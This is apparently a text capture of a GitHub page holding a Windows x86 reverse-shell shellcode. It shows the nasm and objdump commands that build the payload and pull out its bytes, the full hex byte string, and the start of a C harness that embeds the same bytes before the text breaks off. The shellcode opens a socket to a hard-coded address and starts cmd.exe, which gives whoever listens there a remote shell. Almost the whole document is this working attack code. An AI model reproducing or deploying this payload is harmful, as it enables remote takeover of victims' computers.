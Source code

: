 ```bash
root@root:# nasm -f elf32 reverse_shell_shellcode.nasm ; ld -melf_i386 -o reverse_shell_shellcode reverse_shell_shellcode.o

root@root:# objdump -d ./reverse_shell_shellcode|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc9\xf7\xe1\x64\x8b\x41\x30\x8b\x40\x0c\x8b\x70\x14\xad"
"\x96\xad\x8b\x58\x10\x8b\x53\x3c\x01\xda\x8b\x52\x78\x01\xda"
"\x8b\x72\x20\x01\xde\x31\xc9\x41\xad\x01\xd8\x81\x38\x47\x65"
"\x74\x50\x75\xf4\x81\x78\x04\x72\x6f\x63\x41\x75\xeb\x81\x78"
"\x08\x64\x64\x72\x65\x75\xe2\x8b\x72\x24\x01\xde\x66\x8b\x0c"
"\x4e\x49\x8b\x72\x1c\x01\xde\x8b\x14\x8e\x01\xda\x89\xd5\x31"
"\xc9\x51\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f"
"\x61\x64\x54\x53\xff\xd2\x68\x33\x32\x61\x61\x66\x81\x6c\x24"
"\x02\x61\x61\x68\x77\x73\x32\x5f\x54\xff\xd0\x89\xc6\x68\x75"
"\x70\x61\x61\x66\x81\x6c\x24\x02\x61\x61\x68\x74\x61\x72\x74"
"\x68\x57\x53\x41\x53\x54\x56\xff\xd5\x31\xd2\x66\xba\x90\x01"
"\x29\xd4\x54\x52\xff\xd0\x68\x74\x41\x61\x61\x66\x81\x6c\x24"
"\x02\x61\x61\x68\x6f\x63\x6b\x65\x68\x57\x53\x41\x53\x54\x56"
"\xff\xd5\x31\xd2\x52\x52\x52\xb2\x06\x52\x80\xea\x05\x52\x42"
"\x52\xff\xd0\x50\x5f\x68\x65\x63\x74\x61\x66\x83\x6c\x24\x03"
"\x61\x68\x63\x6f\x6e\x6e\x54\x56\xff\xd5\xba\xc1\xa9\x02\xed"
"\x81\xea\x01\x01\x01\x01\x52\x66\x68\x11\x5c\x31\xd2\xb2\x02"
"\x66\x52\x89\xe2\x6a\x10\x52\x57\xff\xd0\x31\xc9\x68\x73\x41"
"\x61\x61\x66\x81\x6c\x24\x02\x61\x61\x68\x6f\x63\x65\x73\x68"
"\x74\x65\x50\x72\x68\x43\x72\x65\x61\x54\x53\xff\xd5\x89\xde"
"\x68\x63\x6d\x64\x61\x66\x83\x6c\x24\x03\x61\x89\xe3\x57\x57"
"\x57\x31\xff\x6a\x12\x59\x57\xe2\xfd\x66\xc7\x44\x24\x3c\x01"
"\x01\xc6\x44\x24\x10\x44\x8d\x4c\x24\x10\x54\x51\x57\x57\x57"
"\x47\x57\x4f\x57\x57\x53\x57\xff\xd0\x83\xc4\x10\x68\x65\x73"
"\x73\x61\x66\x83\x6c\x24\x03\x61\x68\x50\x72\x6f\x63\x68\x45"
"\x78\x69\x74\x54\x56\xff\xd5\x31\xc9\x51\xff\xd0"
```
The shellcode.c file

```c
#include <stdio.h>
#include <windows.h>

int main()
{

    char* shellcode = \
    "\x31\xc9\xf7\xe1\x64\x8b\x41\x30\x8b\x40\x0c\x8b\x70\x14\xad"
"\x96\xad\x8b\x58\x10\x8b\x53\x3c\x01\xda\x8b\x52\x78\x01\xda"
"\x8b\x72\x20\x01\xde\x31\xc9\x41\xad\x01\xd8\x81\x38\x47\x65"
"\x74\x50\x75\xf4\x81\x78\x04\x72\x6f\x63\x41\x75\xeb\x81\x78"
"\x08\x64\x64\x72\x65\x75\xe2\x8b\x72\x24\x01\xde\x66\x8b\x0c"
"\x4e\x49\x8b\x72\x1c\x01\xde\x8b\x14\x8e\x01\xda\x89\xd5\x31"
"\xc9\x51\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f"
"\x61\x64\x54\x53\xff\xd2\x68\x33\x32\x61\x61\x66\x81\x6c\x24"
"\x02\x61\x61\x68\x77\x73\x32\x5f\x54\xff\xd0\x89\xc6\x68\x75"
"\x70\x61\x61\x66\x81\x6c\x24\x02\x61\x61\x68\x74\x61\x72\x74"
"\x68\x57\x53\x41\x53\x54\x56\xff\xd5\x31\xd2\x66\xba\x90\x01"
"\x29\xd4\x54\x52\xff\xd0\x68\x74\x41\x61\x61\x66\x81\x6c\x24"
"\x02\x61\x61\x68\x6f\x63\x6b\x65\x68\x57\x53\x41\x53\x54\x56"
"\xff\xd5\x31\xd2\x52\x52\x52\xb2\x06\x52\x80\xea\x05\x52\x42"
"\x52\xff\xd0\x50\x5f\x68\x65\x63\x74\x61\x66\x83\x6c\x24\x03"
"\x61\x68\x63\x6f\x6e\x6e\x54\x56\xff\xd5\xba\xc1\xa9\x02\xed"
"\x81\xea\x01\x01\x01\x01\x52\x66\x68\x11\x5c\x31\xd2\xb2\x02"
"\x66\x52\x89\xe2\x6a\x10\x52\x57\xff\xd0\x31\xc9\x68\x73\x41"
"\x61\x61\x66\x81\x6c\x24\x02\x61\x61\x68\x6f\x63\x65\x73\x68"
"\x74\x65\x50\x72\x68\x43\x72\x65\x61\x54\x53\xff\xd5\x89\xde"
"\x68\x63\x6d\x64\x61\x66\x83\x6c\x24\x03\x61\x89\xe3\x57\x57"
```
